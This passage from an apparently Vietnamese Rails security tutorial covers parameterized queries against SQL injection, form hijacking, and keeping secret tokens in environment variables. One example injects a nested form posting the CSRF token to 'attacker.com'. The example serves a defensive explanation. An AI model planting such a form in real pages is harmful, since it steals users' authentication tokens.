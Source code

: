 
Để ngăn ngừa cách tấn công này, hãy sử dụng kết hợp chuỗi với sự giúp đỡ của kí tự `?` cho các câu truy vấn phức tạp.
```ruby
@user = User.where("id = ?", params[:id])
```
Trong trường hợp này, đầu vào sẽ được kiểm tra. Hiện giờ , với việc bổ sung Arel vào trong Rails core, các câu truy vấn sẽ trở nên đơn giản hơn. Ví dụ thay vì viết:
```ruby
@user = User.where("id = ? OR name = ?", params[:id], params[:name])
```
thì có thể viết thành:
```ruby
@user = User.where(id: params[:id]).or(where(name: params[:name]))
```
### **Form Hijacking**

Rails đã bổ sung token CSRF cho mỗi form. Điều đó sẽ ngăn chặn phương thức tấn công của hacker là chèn form của chính hacker vào trang web để sử dụng như một form hợp pháp.
```ruby
<form method="post" action="//attacker.com/tokens">
  <form method="post" action="/legit_action">
  <input type="hidden" name="authenticity_token" value="thetoken">
</form>
```
HTML không cho phép các form lồng nhau, do đó form chưa mã độc sẽ thay thế form ban đầu, trong khi vẫn giữ lại token. Nếu form được gửi đi, token sẽ được gửi đến trang web giả mạo. Mặc dù cách tấn công này khá hiếm và khó xảy ra, nhưng chúng ta vẫn nên biết.


Trong rails 5, đã mặc định gắn `Rails.application.config.action_controller.per_form_csrf_tokens` là true. Cấu hình này luôn được đặt trong `config/initializers/new_framework_defaults.rb`

### **Revealing Private Tokens**

Ứng dụng của bạn sử dụng một danh sách các token cá nhân để tương tác với bên thứ 3 hay cho phép xác thực OAuth2 chẳng hạn. Hãy luôn cẩn thận với các token này và đừng bao giờ để lộ chúng ra ngoài (trong một repo public của GitHub). Cách đơn giản nhất là tách chúng ra thành các biến môi trường và sử dụng gem như dotenv-rails. Với dotenv-rails, bạn tạo một file là .env và loại bỏ file đó khỏi bộ điều khiển version (git).
```ruby
# .gitignore
.env
```

và đặt các token vào file:

Trên production, các biến này luôn được đặt trong file cấu hình server.
Trong các phiên bản cũ của Rails, một token bí mật được nằm trong` config/initializers/secret_token.rb,` nhưng cũng không đảm bảo an toàn cho mọi case. Rails 4 đã giới thiệu một file đặc biệt `config/secrets.yml `với các token production được cấu hình để sử dụng một biến ENV.
```ruby
production:
  secret_key_base: <%= ENV["SECRET_KEY_BASE"] %>
```
Nhân tiện đây, đừng quên đặt `secret_key_base` vào trong biến môi trường, và đừng đặt key với giá trị đơn giản – chạy lênh` rake secret` và sử dụng giá trị được sinh ra.
